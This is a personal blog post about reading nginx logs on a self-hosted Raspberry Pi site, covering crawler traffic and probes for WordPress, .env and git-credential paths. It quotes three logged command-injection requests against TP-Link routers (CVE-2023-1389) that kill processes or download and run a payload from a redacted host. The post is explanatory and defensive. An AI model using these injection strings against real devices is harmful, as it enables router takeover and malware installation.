 ```yaml
---
title: Beautiful women named SM-G892A Bulid/NRD90M keep trying to access my /wp-admin
description: Opening the can of worms otherwise known as my nginx logs
date: 2024-07-20T20:10:00+02:00
tags: indieweb
---
```


For the low price of an additional €2.5 to my monthly Internet bill (for the static IP) I can now just drag `html` files into a network folder on my Raspberry Pi and have them appear online, in the form of this site. And I can see all the logs! These are pretty interesting, because there really are a lot of crawlers out there. I knew there would be *some*, but reading the logs for the first time felt like playing one of those horror games in which everything is okay until you use the flashlight.

In the last 24 hours (ish), the crawlers have constituted 51.06% of the traffic, and `robots.txt` has been the second most requested file (after the favicon). I used the advice from [darkvisitors.com](https://darkvisitors.com/docs/robots-txt) for the `robots.txt` file, but it feels a bit silly that I have to specifically mention the user agents in the file before I even know that they exist. Who are `AhrefsBot`, `ImagesiftBot`, `SemrushBot`, `SeznamBot`, `CensysInspect`, or `BazQuxReaderMediaProxy`? And it's not like they have to respect my wishes anyway. By analyzing the logs I can see whether they have, but I'm not sure if I care that much. 

The requests that returned a 404 Not Found error were somewhat interesting. I did expect that `/wp-admin`, `/wp-login/`, `/wp-includes/`, etc. would be fairly popular crawl destinations, but I felt a bit betrayed that the crawlers were also interested in my `/.env` file, as well as in the `/.git/config` and `/.git-credentials`. The crawlers also looked for a `/config.json`, a `/docker-compose.yml`, a `/debug/vars`, or a `/app/config/parameters.yml`. There was also a request for the PHP debug bar or a `/cgi-bin/printenv.pl` file, which I assume would be a perl script that would print the environmental variables.

Some requests were also probing for cross-site scripting vulnerabilities. There were requests for versions of jQuery lower than 3.5.0, or for a file called `MultiFileUploader.ashx`. There was a request for `/+CSCOE+/logon.html`, which is a [HTTP response splitting](https://en.wikipedia.org/wiki/HTTP_response_splitting) vulnerability present in [some Cisco servers](https://bst.cisco.com/quickview/bug/CSCth63101). I think the most interesting requests were the following ones:

<pre>
  <code style="white-space: pre-line; line-break: anywhere;">
    /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id>`for+proc_dir+in+/proc/[0-9]*;+do+pid=${proc_dir##*/};+buffer=$(cat+"/proc/$pid/maps");+if+[+"${#buffer}"+-gt+1+];+then+if+[+"${buffer#*"/lib/"}"+=+"$buffer"+]+&&+[+"${buffer#*"telnetdbot"}"+=+"$buffer"+];+then+kill+-9+"$pid";+fi;+fi;+done`)
  </code>
</pre>

<pre>
  <code style="white-space: pre-line; line-break: anywhere;">
    /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id>`cd+/tmp;+rm+-rf+wget.sh;+wget+http://[REDACTED]/wget.sh;+chmod+777+wget.sh;+./wget.sh+tplink;+rm+-rf+wget.sh`)
  </code>
</pre>

<pre>
  <code style="white-space: pre-line; line-break: anywhere;">
    /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id>`cd+/tmp;+rm+-rf+r;+wget+http://[REDACTED]/r;+chmod+777+r;+./r+tplink;+rm+-rf+r`)
  </code>
</pre>

These ones truly tell a story. I replaced IP addresses with `[REDACTED]`. I assume that's where the payload is hosted. These requests [would work on some TP-Link routers](https://nvd.nist.gov/vuln/detail/CVE-2023-1389), but we don't have a TP-Link router, the router that we have is not out on the Internet by itself, and the current configuration shouldn't allow for anything like that.

But I do feel I need to be more mindful about it, and keep the configuration as simple as possible, sticking to static sites for now. All these requests were present in just two `access.log` files (from two days). I might update this post if I see more interesting things in there. I used [GoAccess](https://goaccess.io/) to parse the logs, but I feel like it's slightly obscuring the data, so I'll probably try to find a better set-up.
